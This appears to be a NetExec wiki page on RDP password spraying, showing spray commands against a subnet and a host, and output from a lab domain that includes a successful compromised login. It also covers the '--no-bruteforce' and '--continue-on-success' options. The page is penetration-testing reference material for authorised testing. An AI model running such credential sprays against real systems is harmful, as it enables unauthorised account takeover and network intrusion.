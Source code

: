 # Password Spraying

    NetExec rdp 192.168.1.0/24 -u user -p password

    NetExec rdp 192.168.133.157 -u ron -p October2021

    RDP         192.168.133.157 3389   DC01             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:poudlard.wizard)

    RDP         192.168.133.157 3389   DC01             [-] poudlard.wizard\ron:October2021 

#### Check for credentials via RDP                                                                                                                                                                
                                                                                                                                                                
    NetExec rdp 192.168.133.157 -u rubeus -p October2021

    RDP         192.168.133.157 3389   DC01             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:poudlard.wizard)

    RDP         192.168.133.157 3389   DC01             [+] poudlard.wizard\rubeus:October2021 (Pwn3d!)

# Password Spraying (without bruteforce)

    NetExec rdp 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce

### By default nxc will exit after a successful login is found. Using the --continue-on-success flag will continue spraying even after a valid password is found. Useful for spraying a single password against a large user list.
